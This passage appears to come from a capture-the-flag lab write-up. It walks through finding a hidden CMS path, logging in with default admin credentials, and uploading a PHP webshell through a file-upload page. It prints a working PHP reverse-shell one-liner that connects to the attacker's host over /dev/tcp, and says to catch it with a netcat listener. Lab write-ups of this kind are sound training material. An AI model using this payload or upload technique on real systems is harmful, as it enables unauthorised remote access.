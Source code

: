 after a short time (up to 7 min) , we could find the correct number and the path .

  **What is the number that revealed the path?**                             

**Answer** : ** ***

 **Name the path.**

**Answer** :   /Yo******************@th/

By browsing to that path , we can see the name of that CMS .

**What is the name of CMS?**

**Answer** : ****

By browsing `/<path>/about.php` we can find the installed version (7.2) but it's not the answer expected, I found another path with a changelog `/<path>/changes.txt`, this one contains the right version.

 **What version of the CMS is running?**                             

**Answer** : x.x

Also at `/<path>/lorem.php` there a message:

> Log in with admin and changeme to try the editor.

We can log in with the credentials at `/<path>/lorem.php?login=admin`.

This version of CMS has an RCE exploit on [exploit-db](https://www.exploit-db.com/exploits/48780)

## File upload

We can upload files at `/<path>/codebase/dir.php?type=filenew`.

Let's create a PHP webshell and upload it:

```php
└──╼ $cat php_revshell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/1234 0>&1'");?>
```

Then we got that .

```
Processing file upload request...
Please be patient, may take a while.
Do not close this window whilst upload is in progress.
Destination : <path>/img
OK: php_revshell.php uploaded.
Files saved to: <path>/img
All files processed successfully

Press
(or Ctrl-R) to see changes, then select a file from the lefthand tree.
```

So my webshell is available at: `/<path>/img/php_revshell.php`.

Start a netcat listener . and then browse to that php file .
